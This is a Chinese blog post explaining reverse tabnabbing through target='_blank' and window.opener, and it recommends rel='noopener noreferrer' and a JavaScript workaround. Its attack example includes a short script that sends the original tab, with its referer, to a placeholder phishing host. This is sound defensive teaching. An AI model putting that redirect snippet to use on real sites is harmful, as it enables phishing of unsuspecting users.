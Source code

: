 ```yaml
---
layout:     post                   
title:      危险的target="_blank"与"opener"
subtitle:   跳转新页面需要知道的事情
date:       2018-03-012
author:     chuck
header-img: img/home-bg-link.jpg
catalog: true                      
tags:                               
    - JavaScript
    - iframe
    - Window
    - 跨域
---
```


### 危险的target="_blank"与"opener"

在前端早读课上读到的文章，感觉又学到的新的知识，get！

-------

> 在网页中使用链接时，如果想要让浏览器自动在新的标签页打开指定的地址，通常的做法就是在 a 标签上添加 target等于”_blank” 属性。

> 然而，就是这个属性，为钓鱼攻击者带来了可乘之机。
 
 
#### parent与opener

首先需要说明的是，parent与opener都是window对象的属性。其中`window.parent`用来从框架中的页面访问父级页面的`window`。

`opener`与`parent`类似，用于`<a target="_blank">` 在新标签页打开的页面的。通过 `<a target="_blank">` 打开的页面，可以直接使用 `window.opener` 来访问来源页面的 `window` 对象。

浏览器提供了完整的跨域保护，在域名相同时，`parent` 对象和 `opener` 对象实际上就直接是上一级的 `window` 对象；而当域名不同时，`parent` 和 `opener` 则是经过包装的一个 `global` 对象。这个 `global` 对象仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）。

如果，你的网站上有一个链接，使用了 `target=”_blank”`，那么一旦用户点击这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。

#### 详细步骤

1：在你的网站 https://example.com 上存在一个链接：

```
<a href="https://an.evil.site"target="_blank">进入一个“邪恶”的网站</a>
```

2：用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。并且，这个网站上包含着类似于这样的 JavaScript 代码：

```
const url =encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?'+ url);
```

    1. 此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。
    
    2. 恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。
    
    3. 用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了。

与 parent 不同的是，在跨域的情况下，opener 仍然可以调用 **`location.replace`** 方法而 parent 则不可以。

如果是在同域的情况下（比如一个网站上的某一个页面被植入了恶意代码），则情况要比上面严重得多。

划重点：**在跨域的情况下，opener 仍然可以调用 location.replace 方法来替换原来标签页的URL。**

#### 防御

`<iframe>` 中有 sandbox 属性，而链接，则可以使用下面的办法：

##### 1. Referrer Policy 和 noreferrer

上面的攻击步骤中，用到了 HTTP Header 中的 Referer 属性，实际上可以在 HTTP 的响应头中增加 `Referrer Policy` 头来保证来源隐私安全。

`Referrer Policy` 需要修改后端代码来实现，而在前端，也可以使用 `<a>` 标签的 rel 属性来指定 `rel=”noreferrer”` 来保证来源隐私安全。

```
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个“邪恶”的网站</a>

// 但是要注意的是：即使限制了 referer 的传递，仍然不能阻止原标签被恶意跳转。
```

##### 2. noopener

为了安全，现代浏览器都支持在 `<a>`标签的 rel 属性中指定 `rel=”noopener”`，这样，在打开的新标签页中，将无法再使用 `opener` 对象了，它为设置为了 `null`。

```
<a href="https://an.evil.site"target="_blank"rel="noopener">进入一个“邪恶”的网站</a>
```

##### 3. JavaScript

noopener 属性绝大多数现代浏览器已经兼容，但是比较古老的浏览器就不认识了。这时就需要用到原生JS了。

```
"use strict";
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}
```

#### 推荐写法

首先，在网站中的链接上，如果使用了 `target=”_blank”`，就要带上 `rel=”noopener”`，并且建议带上 `rel=”noreferrer”`。

当然，在跳转到第三方网站的时候，为了 SEO 权重，还建议带上 `rel=”nofollow”`，所以最终类似于这样：


```
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow">进入一个“邪恶”的网站</a>
```

#### 性能

如果网站使用了 `<a target="_blank">`，那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的 JavaScript 脚本，那么原始标签页也会受到影响，会出现卡顿的现象（当然不至于卡死）。

而如果在链接中加入了 `noopener`，则此时两个标签页将会互不干扰，使得原页面的性能不会受到新页面的影响。


原文链接：https://knownsec-fed.com/2018-03-01-wei-xian-de-targetblank-yu-opener/
